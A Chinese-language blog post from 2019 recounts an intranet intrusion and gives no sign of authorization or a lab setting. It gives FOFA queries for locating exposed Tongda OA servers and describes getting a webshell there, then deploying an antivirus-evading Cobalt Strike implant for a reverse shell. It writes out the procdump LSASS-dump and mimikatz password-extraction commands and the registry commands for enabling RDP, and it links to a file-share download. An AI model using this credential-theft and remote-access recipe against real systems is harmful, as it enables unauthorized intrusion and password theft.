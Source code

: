 ﻿---
layout: post
title: 内网：记一次内网渗透
date: 2019-10-06
categories: blog
tags: [内网，mimikatz，procdump]
description: 内网渗透
---

>通过通达oa漏洞获取webshell
fofa`title="网络智能管理系统"`，`app="通达OA"`


>蚁剑管上

>上传veil CS免杀的远控exe，命令行执行，反弹成功
![](https://upload-images.jianshu.io/upload_images/15634342-eb3d43d8f0e55b88.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

>直接CS run mimikatz，获取用户名密码

>或者上传Procdump.exe
`procdump64.exe -accepteula -ma lsass.exe lsass.dmp`
将lsass.dmp下载到本地执行
`mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit`
解出密码
链接：https://pan.baidu.com/s/1gNc9qLcNSNBohIVrAiqShw 密码：fc38

>该机器直接就是system权限，然而该机器有数字套餐，命令行开启3389失败
执行开启3389端口`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`
执行关闭3389端口`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 11111111 /f`

>思路：上传teamviewer一键安装版，上传读取tv密码的脚本，读取密码。用tv连












